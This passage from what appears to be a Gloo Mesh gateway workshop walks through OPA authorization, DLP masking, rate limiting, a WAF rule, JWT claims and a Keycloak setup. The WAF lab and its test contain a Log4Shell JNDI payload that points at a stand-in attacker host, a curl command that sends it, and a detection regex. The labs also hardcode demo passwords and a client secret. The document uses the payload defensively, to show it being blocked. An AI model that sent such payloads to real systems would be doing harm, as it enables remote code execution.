  const cookieString = process.env.USER2_COOKIE;
  it('The new header has been added', () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], body: '"X-Email": "user2@solo.io"' }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/apps/httpbin/gateway-extauth-oauth/tests/header-added.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

If you refresh the web browser, you will be redirected to the authentication page.

If you use the username `user1` and the password `password` you should be redirected back to the `httpbin` application.

Notice that we are also extracting information from the `email` claim, and putting it into a new header. This can be used for different things during our authz/authn flow, but most importantly we don't need any jwt-decoding library in the application anymore!

You can also perform authorization using OPA.

First, you need to create a `ConfigMap` with the policy written in rego:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: allow-solo-email-users
  namespace: httpbin
data:
  policy.rego: |-
    package test

    default allow = false

    allow {
        [header, payload, signature] = io.jwt.decode(input.state.jwt)
        endswith(payload["email"], "@solo.io")
    }
EOF
```

Then, you need to update the `ExtAuthPolicy` object to add the authorization step:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    server:
      name: ext-auth-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    glooAuth:
      configs:
      - oauth2:
          oidcAuthorizationCode:
            appUrl: "https://cluster1-httpbin.example.com"
            callbackPath: /callback
            clientId: ${KEYCLOAK_CLIENT}
            clientSecretRef:
              name: oauth
              namespace: gloo-mesh-addons
            issuerUrl: "${KEYCLOAK_URL}/realms/workshop/"
            logoutPath: /logout
            afterLogoutUrl: "https://cluster1-httpbin.example.com/get"
            session:
              failOnFetchFailure: true
              redis:
                cookieName: keycloak-session
                options:
                  host: redis:6379
            scopes:
            - email
            headers:
              idTokenHeader: jwt
            identityToken:
              claimsToHeaders:
                - claim: email
                  header: X-Email
      - opaAuth:
          modules:
          - name: allow-solo-email-users
            namespace: httpbin
          query: "data.test.allow == true"
EOF
```

Refresh the web page. `user1` shouldn't be allowed to access it anymore since the user's email ends with `@example.com`.
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Authentication is working properly", function () {

  const cookieString_user1 = process.env.USER1_COOKIE;
  const cookieString_user2 = process.env.USER2_COOKIE;

  it("The httpbin page isn't accessible with user1", () => helpersHttp.checkURL({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString_user1 }], retCode: "keycloak-session=dummy" == cookieString_user1 ? 302 : 403 }));
  it("The httpbin page is accessible with user2", () => helpersHttp.checkURL({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString_user2 }], retCode: 200 }));

});

EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/apps/httpbin/gateway-extauth-oauth/tests/authorization.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
If you open the browser in incognito and login using the username `user2` and the password `password`, you will now be able to access it since the user's email ends with `@solo.io`.

This diagram shows the flow of the request (with the Istio ingress gateway leveraging the `extauth` Pod to authorize the request):


## Lab 14 - Use the transformation filter to manipulate headers <a name="lab-14---use-the-transformation-filter-to-manipulate-headers-"></a>


In this step, we're going to use a regular expression to extract a part of an existing header and to create a new one:

Let's create a `TransformationPolicy` to extract the claim.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: TransformationPolicy
metadata:
  name: modify-header
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    phase:
      postAuthz:
        priority: 2
    request:
      injaTemplate:
        extractors:
          organization:
            header: 'X-Email'
            regex: '.*@(.*)$'
            subgroup: 1
        headers:
          x-organization:
            text: "{{ organization }}"
EOF
```

You can see that it will be applied to our existing route and also that we want to execute it after performing the external authentication (to have access to the JWT token).

If you refresh the web page, you should see a new `X-Organization` header added to the request with the value `solo.io`

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Tranformation is working properly", function() {
  const cookieString = process.env.USER2_COOKIE;
  it('The new header has been added', () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], body: '"X-Organization": "solo.io"' }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/apps/httpbin/gateway-transformation/tests/header-added.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->


## Lab 15 - Use the DLP policy to mask sensitive data <a name="lab-15---use-the-dlp-policy-to-mask-sensitive-data-"></a>
[](https://youtu.be/Uark0F4g47s "Video Link")


Now that we learnt how to put user information from the JWT to HTTP headers visible to the applications, those same applications could return sensitive or protected user information in the responses. 

In this step, we're going to use a Data Loss Prevention (DLP) Policy to mask data in response bodies and headers.

Let's create a `DLPPolicy` to mask protected user information.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: DLPPolicy
metadata:
  name: basic-dlp-policy
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    sanitize: ALL # Enable DLP masking for both responses bodies and access logs
    actions:
    - predefinedAction: ALL_CREDIT_CARDS # AMEX, VISA, MASTERCARD, JCB, DISCOVER, ETC.
    - predefinedAction: SSN # Social Security Number
    - customAction:
        regexActions:
        - regex: '[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,4}' # Email
        - regex: 'eyJ[0-9a-zA-Z_-]+?\.[0-9a-zA-Z_-]+?\.[0-9a-zA-Z_-]+?' # JWT token
EOF
```

By default, the DLP policy will mask the email address with the character `X`, leaving 25% of the characters visible. 
Both character and percentage can be easily changed in the policy.

If you refresh the web page, you should see `X-Email` header masked as `XXXXXXXXXX.io`

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("DLP Policy", function () {
  const cookieString = process.env.USER2_COOKIE;

  it('Email is masked', () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], body: 'XXXXXXXXXX.io' }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/apps/httpbin/gateway-dlp/tests/email-masked.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->


## Lab 16 - Apply rate limiting to the Gateway <a name="lab-16---apply-rate-limiting-to-the-gateway-"></a>


In this step, we're going to apply rate limiting to the Gateway to only allow 3 requests per minute for the users of the `solo.io` organization.

First, we need to create a `RateLimitServerConfig` object to define the limits based on the descriptors we will use later:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerConfig
metadata:
  name: httpbin
  namespace: httpbin
spec:
  destinationServers:
  - ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
  raw:
    setDescriptors:
      - simpleDescriptors:
          - key: organization
            value: solo.io
        rateLimit:
          requestsPerUnit: 3
          unit: MINUTE
EOF
```

After that, we need to create a `RateLimitPolicy` object to define the descriptors:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        ratelimited: "true"
  config:
    serverSettings:
      name: rate-limit-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    raw:
      rateLimits:
      - setActions:
        - requestHeaders:
            descriptorKey: organization
            headerName: X-Organization
    ratelimitServerConfig:
      name: httpbin
      namespace: httpbin
      cluster: cluster1
    phase:
      postAuthz:
        priority: 3

EOF
```

Finally, you need to update the `RouteTable` to use this `RateLimitPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      labels:
        oauth: "true"
        ratelimited: "true"
      matchers:
      - uri:
          exact: /get
      - uri:
          exact: /logout
      - uri:
          prefix: /callback
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
          port:
            number: 8000
EOF
```

Refresh the web page multiple times.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Rate limiting is working properly", function() {
  const cookieString = process.env.USER2_COOKIE;
  it('The httpbin page should be rate limited', () => helpersHttp.checkURL({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], retCode: 429 }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/apps/httpbin/gateway-ratelimiting/tests/rate-limited.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

You should get a `200` response code the first 3 time and a `429` response code after.

This diagram shows the flow of the request (with the Istio ingress gateway leveraging the `rate limiter` Pod to determine if the request should be allowed):


Let's apply the original `RouteTable` yaml:
```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
EOF
```

And also delete the different objects we've created:
```bash
kubectl --context ${CLUSTER1} -n httpbin delete extauthpolicies httpbin
kubectl --context ${CLUSTER1} -n httpbin delete dlppolicy basic-dlp-policy
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitpolicy httpbin
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitserverconfig httpbin
```


## Lab 17 - Use the Web Application Firewall filter <a name="lab-17---use-the-web-application-firewall-filter-"></a>
[](https://youtu.be/9q2TxtBDqrA "Video Link")

A web application firewall (WAF) protects web applications by monitoring, filtering, and blocking potentially harmful traffic and attacks that can overtake or exploit them.

Gloo Mesh includes the ability to enable the ModSecurity Web Application Firewall for any incoming and outgoing HTTP connections. 

An example of how using Gloo Mesh we'd easily mitigate the recent Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)), which for many enterprises was a major ordeal that took weeks and months of updating all services.

The Log4Shell vulnerability impacted all Java applications that used the log4j library (common library used for logging) and that exposed an endpoint. You could exploit the vulnerability by simply making a request with a specific header. In the example below, we will show how to protect your services against the Log4Shell exploit. 

Using the Web Application Firewall capabilities you can reject requests containing such headers. 

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. That's what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

Create the WAF policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4shell
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        waf: "true"
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \\\${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

In this example, we're going to update the main `RouteTable` to enforce this policy for all the applications exposed through the gateway (in any workspace).

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-httpbin
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-httpbin.example.com
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      labels:
        waf: "true"
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
            workspace: httpbin
        sortMethod: ROUTE_SPECIFICITY
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("WAF is working properly", function() {
  it('The request has been blocked', () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{key: 'x-my-header', value: '${jndi:ldap://evil.com/x}'}], body: 'Log4Shell malicious payload' }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/apps/httpbin/gateway-waf/tests/waf.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Run the following command to simulate an attack:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" -k "https://cluster1-httpbin.example.com/get" -i
```

The request should be rejected:

```,nocopy
HTTP/2 403 
content-length: 27
content-type: text/plain
date: Tue, 05 Apr 2022 10:20:06 GMT
server: istio-envoy

Log4Shell malicious payload
```


Let's apply the original `RouteTable` yaml:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-bookinfo
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-bookinfo.example.com
    - cluster2-bookinfo.example.com
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
            workspace: bookinfo
          - labels:
              expose: "true"
            workspace: gateways
        sortMethod: ROUTE_SPECIFICITY
---
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-httpbin
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-httpbin.example.com
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
            workspace: httpbin
        sortMethod: ROUTE_SPECIFICITY
EOF
```

And also delete the waf policy we've created:

```bash
kubectl --context ${CLUSTER1} -n httpbin delete wafpolicies log4shell
```


## Lab 18 - Use the JWT filter to create headers from claims <a name="lab-18---use-the-jwt-filter-to-create-headers-from-claims-"></a>
[](https://youtu.be/bpFKbhUIwgM "Video Link")

In this step, we're going to validate the JWT token and to create a new header from the `email` claim.

You can restrict a request's access based on the claims and scopes in a JWT. `Claims` are key-value pairs that provide identity details, such as the subject's user ID, the entity that issued the token, and expiration time. `Scopes` are strings that indicate the permissions granted to the token holder.

Keycloak is running outside of the Service Mesh, so we need to define an `ExternalService` and its associated `ExternalEndpoint`:

Let's start by the latter:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalEndpoint
metadata:
  name: keycloak
  namespace: httpbin
  labels:
    host: keycloak
spec:
  address: ${HOST_KEYCLOAK}
  ports:
  - name: http
    number: ${PORT_KEYCLOAK}
EOF
```

Then we can create the former:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: keycloak
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
  - keycloak
  ports:
  - name: http
    number: ${PORT_KEYCLOAK}
    protocol: HTTP
  selector:
    host: keycloak
EOF
```

Now, we can create a `JWTPolicy` to extract the claim.

Create the policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: JWTPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    phase:
      preAuthz: {}
    claims:
    - key: "email"
      values:
      - "*@solo.io"
    requiredScopes:
    - "email"
    providers:
      keycloak:
        issuer: ${KEYCLOAK_URL}/realms/workshop
        tokenSource:
          headers:
          - name: jwt
        remote:
          url: ${KEYCLOAK_URL}/realms/workshop/protocol/openid-connect/certs
          destinationRef:
            kind: EXTERNAL_SERVICE
            ref:
              name: keycloak
            port:
              number: ${PORT_KEYCLOAK}
        claimsToHeaders:
        - claim: email
          header: X-Email-Jwt
EOF
```

And update the routable:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      labels:
        oauth: "true"
      matchers:
      - uri:
          exact: /get
      - uri:
          exact: /logout
      - uri:
          prefix: /callback
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
EOF
```

We will use gloo to add conditional access to the `httpbin` service based on the `email` scope and claim in the JWT token.

```shell
export USER2_COOKIE_JWT=$(curl -Ssm 10 --fail-with-body \
  -d "client_id=gloo-ext-auth" \
  -d "client_secret=hKcDcqmUKCrPkyDJtCw066hTLzUbAiri" \
  -d "username=user2" \
  -d "password=password" \
  -d "grant_type=password" \
  "$KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token" |
  jq -r .access_token)
curl -kis https://cluster1-httpbin.example.com/get -H "jwt: ${USER2_COOKIE_JWT}"
```

You should see a new `X-Email-Jwt` header added to the request with the value `user2@solo.io`

<!--bash
source data/steps/gloo-mesh-2-0/gateway-jwt/kc-token.sh
-->
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Claim to header is working properly", function() {
  const jwtString = process.env.USER2_COOKIE_JWT;
  it('The new header has been added', () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{ key: 'jwt', value: jwtString }], body: '"X-Email-Jwt":' }));
  it('The new header has value', () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{ key: 'jwt', value: jwtString }], body: '"user2@solo.io"' }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/apps/httpbin/gateway-jwt/tests/header-added.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->


Let's apply the original `RouteTable` yaml:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-bookinfo
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-bookinfo.example.com
    - cluster2-bookinfo.example.com
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
            workspace: bookinfo
          - labels:
              expose: "true"
            workspace: gateways
        sortMethod: ROUTE_SPECIFICITY
---
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-httpbin
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-httpbin.example.com
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
            workspace: httpbin
        sortMethod: ROUTE_SPECIFICITY
EOF
```

And also delete the jwt policy we've created:

```bash
kubectl --context ${CLUSTER1} -n httpbin delete jwtpolicies httpbin
```


## Lab 19 - Deploy Keycloak <a name="lab-19---deploy-keycloak-"></a>

In many use cases, you need to restrict the access to your applications to authenticated users.

OpenID Connect (OIDC) is an identity layer on top of the OAuth 2.0 protocol. In OAuth 2.0 flows, authentication is performed by an external Identity Provider (IdP) which, in case of success, returns an Access Token representing the user identity. The protocol does not define the contents and structure of the Access Token, which greatly reduces the portability of OAuth 2.0 implementations.

The goal of OIDC is to address this ambiguity by additionally requiring Identity Providers to return a well-defined ID Token. OIDC ID tokens follow the JSON Web Token standard and contain specific fields that your applications can expect and handle. This standardization allows you to switch between Identity Providers – or support multiple ones at the same time – with minimal, if any, changes to your downstream services; it also allows you to consistently apply additional security measures like Role-Based Access Control (RBAC) based on the identity of your users, i.e. the contents of their ID token.

In this lab, we're going to install Keycloak. It will allow us to set up OIDC workflows later.

But, first of all, we're going to deploy Keycloak to persist the data if Keycloak restarts.

```bash
kubectl --context ${CLUSTER1} create namespace gloo-system
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: postgres
  namespace: gloo-system
---
apiVersion: v1
kind: Secret
metadata:
  name: postgres-secrets
  namespace: gloo-system
type: Opaque
data:
  POSTGRES_DB: ZGI=
  POSTGRES_USER: YWRtaW4=
  POSTGRES_PASSWORD: YWRtaW4=
---
apiVersion: v1
kind: PersistentVolumeClaim
metadata:
  name: postgres-pvc
  namespace: gloo-system
spec:
  accessModes:
    - ReadWriteOnce
  resources:
    requests:
      storage: 5Gi
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: postgres
  namespace: gloo-system
spec:
  replicas: 1
  selector:
    matchLabels:
      app: postgres
  template:
    metadata:
      labels:
        app: postgres
    spec:
      serviceAccountName: postgres
      volumes:
        - name: postgres-storage
          persistentVolumeClaim:
            claimName: postgres-pvc
      containers:
        - name: postgres
          image: postgres:13.2-alpine
          imagePullPolicy: 'IfNotPresent'
          ports:
            - containerPort: 5432
          envFrom:
            - secretRef:
                name: postgres-secrets
          volumeMounts:
            - name: postgres-storage
              mountPath: /var/lib/postgresql/data
              subPath: postgres
---
apiVersion: v1
kind: Service
metadata:
  name: postgres
  namespace: gloo-system
spec:
  selector:
    app: postgres
  ports:
    - port: 5432
EOF
```

Wait while Postgres finishes rolling out:

```bash
kubectl --context ${CLUSTER1} -n gloo-system rollout status deploy/postgres

sleep 5
```

Create the database and user for Keycloak:

```bash
kubectl --context ${CLUSTER1} -n gloo-system exec deploy/postgres -- psql -U admin -d db -c "CREATE DATABASE keycloak;"
kubectl --context ${CLUSTER1} -n gloo-system exec deploy/postgres -- psql -U admin -d db -c "CREATE USER keycloak WITH PASSWORD 'password';"
kubectl --context ${CLUSTER1} -n gloo-system exec deploy/postgres -- psql -U admin -d db -c "GRANT ALL PRIVILEGES ON DATABASE keycloak TO keycloak;"
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Postgres", () => {
  it('postgres pods are ready in cluster1', () => helpers.checkDeployment({ context: process.env.CLUSTER1, namespace: "gloo-system", k8sObj: "postgres" }));
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/deploy-keycloak/tests/postgres-available.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

First, we need to define an ID and secret for a "client", which will be the service that delegates to Keycloak for authorization:

```bash
KEYCLOAK_CLIENT=gloo-ext-auth
KEYCLOAK_SECRET=hKcDcqmUKCrPkyDJtCw066hTLzUbAiri
```

We need to store these in a secret accessible by the ext auth service:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: oauth
  namespace: gloo-system
type: extauth.solo.io/oauth
stringData:
  client-id: ${KEYCLOAK_CLIENT}
  client-secret: ${KEYCLOAK_SECRET}
EOF
```

We need to supply the initial configuration of the realm we'll use for these labs.
This will include the client with the ID and secret we defined above, as well as two users that we can use later:

- User1 credentials: `user1/password`
  Email: user1@example.com

- User2 credentials: `user2/password`
  Email: user2@solo.io

Create this configuration in a `ConfigMap`:

```bash
kubectl --context ${CLUSTER1} create namespace keycloak

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
data:
  workshop-realm.json: |-
    {
      "realm": "workshop",
      "enabled": true,
      "displayName": "solo.io",
      "accessTokenLifespan": 1800,
      "sslRequired": "none",
      "users": [
        {
          "username": "user1",
          "enabled": true,
          "email": "user1@example.com",
          "attributes": {
            "group": [
              "users"
            ],
            "subscription": [
              "enterprise"
            ]
          },
          "credentials": [
            {
              "type": "password",
              "secretData": "{\"value\":\"JsfNbCOIdZUbyBJ+BT+VoGI91Ec2rWLOvkLPDaX8e9k=\",\"salt\":\"P5rtFkGtPfoaryJ6PizUJw==\",\"additionalParameters\":{}}",
              "credentialData": "{\"hashIterations\":27500,\"algorithm\":\"pbkdf2-sha256\",\"additionalParameters\":{}}"
            }
          ]
        },
        {
          "username": "user2",
          "enabled": true,
          "email": "user2@solo.io",
          "attributes": {
            "group": [
              "users"
            ],
            "subscription": [
              "free"
            ],
            "show_personal_data": [
              "false"
            ]
          },
          "credentials": [
            {
              "type": "password",
              "secretData": "{\"value\":\"RITBVPdh5pvXOa4JzJ5pZTE0rG96zhnQNmSsKCf83aU=\",\"salt\":\"drB9e5Smf3cbfUfF3FUerw==\",\"additionalParameters\":{}}",
              "credentialData": "{\"hashIterations\":27500,\"algorithm\":\"pbkdf2-sha256\",\"additionalParameters\":{}}"
            }
          ]
        },
        {
          "username": "admin1",
          "enabled": true,
          "email": "admin1@solo.io",
          "attributes": {
            "group": [
              "admin"
            ],
            "show_personal_data": [
              "false"
            ]
          },
          "credentials": [
            {
              "type": "password",
              "secretData" : "{\"value\":\"BruFLfFkjH/8erZ26NnrbkOrWiZuQyDRCHD9o0R6Scg=\",\"salt\":\"Cf9AYCE5pAbb4CKEF0GUTA==\",\"additionalParameters\":{}}",
              "credentialData" : "{\"hashIterations\":5,\"algorithm\":\"argon2\",\"additionalParameters\":{\"hashLength\":[\"32\"],\"memory\":[\"7168\"],\"type\":[\"id\"],\"version\":[\"1.3\"],\"parallelism\":[\"1\"]}}"
            }
          ]
        }
      ],
      "clients": [
        {
          "clientId": "${KEYCLOAK_CLIENT}",
          "secret": "${KEYCLOAK_SECRET}",
          "redirectUris": [
            "*"
          ],
          "webOrigins": [
            "+"
          ],
          "authorizationServicesEnabled": true,
          "directAccessGrantsEnabled": true,
          "serviceAccountsEnabled": true,
          "protocolMappers": [
            {
              "name": "group",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-attribute-mapper",
              "config": {
                "claim.name": "group",
                "user.attribute": "group",
                "access.token.claim": "true",
                "id.token.claim": "true"
              }
            },
            {
              "name": "show_personal_data",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-attribute-mapper",
              "config": {
                "claim.name": "show_personal_data",
                "user.attribute": "show_personal_data",
                "access.token.claim": "true",
                "id.token.claim": "true"
              }
            },
            {
              "name": "subscription",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-attribute-mapper",
              "config": {
                "claim.name": "subscription",
                "user.attribute": "subscription",
                "access.token.claim": "true",
                "id.token.claim": "true"
              }
            },
            {
              "name": "name",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-property-mapper",
              "config": {
                "claim.name": "name",
                "user.attribute": "username",
                "access.token.claim": "true",
                "id.token.claim": "true"
              }
            }
          ]
        }
      ],
      "components": {
        "org.keycloak.userprofile.UserProfileProvider": [
          {
            "providerId": "declarative-user-profile",
            "config": {
              "kc.user.profile.config": [
                "{\"attributes\":[{\"name\":\"username\"},{\"name\":\"email\"}],\"unmanagedAttributePolicy\":\"ENABLED\"}"
              ]
            }
          }
        ]
      }
    }
  portal-realm.json: |
    {
      "realm": "portal-mgmt",
      "enabled": true,
      "sslRequired": "none",
      "roles": {
        "client": {
          "gloo-portal-idp": [
            {
              "name": "uma_protection",
              "composite": false,
              "clientRole": true,
              "attributes": {}
            }
          ]
        },
        "realm": [
          {
            "name": "default-roles-portal-mgmt",
            "description": "${role_default-roles}",
            "composite": true,
            "composites": {
              "realm": [
                "offline_access",
                "uma_authorization"
              ],
              "client": {
                "account": [
                  "manage-account",
                  "view-profile"
                ]
              }
            },
            "clientRole": false,
            "attributes": {}
          },
          {
            "name": "uma_authorization",
            "description": "${role_uma_authorization}",
            "composite": false,
            "clientRole": false
          }
        ]
      },
      "users": [
        {
          "username": "service-account-gloo-portal-idp",
          "createdTimestamp": 1727724261768,
          "emailVerified": false,
          "enabled": true,
          "totp": false,
          "serviceAccountClientId": "gloo-portal-idp",
          "disableableCredentialTypes": [],
          "requiredActions": [],
          "realmRoles": [
            "default-roles-portal-mgmt"
          ],
          "clientRoles": {
            "realm-management": [
              "manage-clients"
            ],
            "gloo-portal-idp": [
              "uma_protection"
            ]
          },
